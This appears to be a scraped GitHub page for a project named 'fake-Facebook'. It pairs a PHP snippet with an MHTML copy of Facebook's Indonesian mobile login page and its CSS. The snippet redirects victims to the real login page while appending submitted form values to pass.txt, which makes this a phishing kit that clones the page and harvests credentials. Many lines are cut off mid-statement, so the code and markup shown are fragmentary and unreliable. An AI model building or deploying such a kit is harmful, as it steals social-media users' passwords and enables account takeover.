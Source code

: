 # fake-Facebook

&lt;?php header('Location: http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&gt; $value) {>
Snapshot-Content-Location: https://m.facebook.com/?next=https%3A%2F%2Fwww.facebook.com%2Fhome.php&refsrc=https%3A%2F%2Fwww.facebook.com%2Fin>
Subject: Masuk ke Facebook
Date: Wed, 4 Nov 2020 10:01:56 -0000
MIME-Version: 1.0
Content-Type: multipart/related;
        type="text/html";
        boundary="----MultipartBoundary--u6jgZQtTsld41UfKS5xGCMn6byTJyd8GESLCRH1XzT----"


------MultipartBoundary--u6jgZQtTsld41UfKS5xGCMn6byTJyd8GESLCRH1XzT----
Content-Type: text/html
Content-ID: <frame-2A14E81E1F2A9658EB217B2C32C950BC@mhtml.blink>
Content-Transfer-Encoding: binary
Content-Location: https://m.facebook.com/?next=https%3A%2F%2Fwww.facebook.com%2Fhome.php&refsrc=https%3A%2F%2Fwww.facebook.com%2Findex.php&_>

<!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"><title>Masuk ke Facebook</title><meta name="vi>
<link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yG/l/0,cross/UdbIuzjJBdF.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="an>
<link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/y0/l/0,cross/h5FNvgUmU_K.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="an>
<link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yQ/l/0,cross/_jV9JHpdxzf.css?_nc_x=Ij3Wp8lg5Kz" as="style" crossorigin="an>
<link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3ijea4/yj/l/id_ID/NMCs7jczdJ4.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin=>
<link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/ys/r/aDUwbdrs7qA.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous">
<link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/y_/r/_MNJ6zz0A-q.js?_nc_x=Ij3Wp8lg5Kz" as="script" crossorigin="anonymous">




</body></html>
------MultipartBoundary--u6jgZQtTsld41UfKS5xGCMn6byTJyd8GESLCRH1XzT----
Content-Type: text/css
Content-Transfer-Encoding: binary
Content-Location: https://static.xx.fbcdn.net/rsrc.php/v3/yG/l/0,cross/UdbIuzjJBdF.css?_nc_x=Ij3Wp8lg5Kz

@charset "utf-8";

._2zsb { display: inline; font-size: 14px; line-height: 16px; min-width: 150px; }

._7quh { margin-left: 6px; }

._7qui { background-color: transparent; border-width: 0px; display: inline; font-size: 14px; line-height: 16px; padding: 0px 0px 8px 6px; te>

._6-_f ._2zsb { color: rgb(255, 255, 255); }

._2zsd { display: inline-block; }

._7quj { width: 100%; }

._7quk { display: inline-block; margin-bottom: 6px; }

._2zse { background: rgb(250, 62, 62); border-radius: 50%; display: inline-block; height: 8px; margin: 4px; vertical-align: middle; width: 8>

._7qul { background: rgb(250, 62, 62); border-radius: 50%; display: inline-block; height: 8px; margin: 0px; vertical-align: middle; width: 8>

._7h80 { background: rgb(250, 62, 62); border: 1.5px solid rgb(255, 255, 255); border-radius: 50%; color: rgb(255, 255, 255); display: inlin>

.touch ._2zsf { display: inline-block; font-size: 14px; line-height: 14px; margin: 16px 0px 18px 12px; }

.touch ._2zsg { margin: 0px 12px; }

._2t_z { max-height: 40px; overflow: hidden; overflow-wrap: break-word; }

.touch ._8iw- { background-color: transparent; border-width: 0px; color: rgb(117, 55, 179); font-size: 12px; line-height: 18px; padding: 0px>

._1uub { height: 32px; position: relative; top: 8px; }

.touch ._6wvj { padding: 10px 12px 10px 10px; }

.touch ._8af- { padding: 8px 12px 8px 8px; }

.touch ._8xle { padding: 12px 12px 0px 8px; }

.touch ._6wvk { margin-right: 10px; }

.touch ._8af_ { margin: 0px 8px 0px 4px; }

.touch ._8ag0 { margin: 8px 12px 8px 8px; }

.touch ._8b4w { margin: 8px 12px; }

.touch ._6wvu { margin: 10px 12px 10px 10px; }

.touch ._1ac3 { background: rgb(66, 103, 178); border-radius: 2px; padding: 10px; }

.touch ._6wvv { background: rgb(66, 103, 178); }

.touch ._6wvw { background: rgb(24, 119, 242); }

.touch ._8ag1 { padding: 6px; }

.touch ._6wvx { padding: 10px; }

.touch ._6wvy { padding: 12px; }

.touch ._6wvz { border-radius: 2px; }

.touch ._6ww4 { border-radius: 50%; }

._2zs_ { border-top: 1px solid rgb(235, 237, 240); font-size: 16px; }

._8b4d { border-top: 1px solid rgb(235, 237, 240); font-size: 16px; margin-top: 8px; }

._1-gc::after { bottom: -12px; content: ""; left: -12px; position: absolute; right: -12px; top: -12px; }

._1dl1 { align-items: center; display: flex; margin: 0px auto; position: relative; }

._7h88 { background: rgb(250, 56, 62); border-color: rgb(255, 255, 255); color: rgb(255, 255, 255); text-align: center; }

._7h89 { border: 1px solid; font-size: 11px; height: 16px; position: absolute; }

._7o6m { line-height: 14px; }

._7h8a { border-radius: 50%; right: -5px; top: -5px; width: 16px; }

._7h8b { border-radius: 10px; right: -12px; top: -6px; width: 28px; }

._7h8c { border-radius: 10px; right: -8px; top: -6px; width: 23px; }

._7h8d { border: 1px solid; border-radius: 50%; float: left; font-size: 11px; height: 18px; margin-left: 20px; padding: 1px; position: relat>

._7h84 { float: left; }

._1dl2 { background: rgb(250, 56, 62); border: 1px solid rgb(255, 255, 255); border-radius: 50%; color: rgb(255, 255, 255); font-size: 11px;>

.touch ._1dl2 { height: 18px; padding: 1px; width: 18px; }

._1cfp { color: rgb(144, 148, 156); }
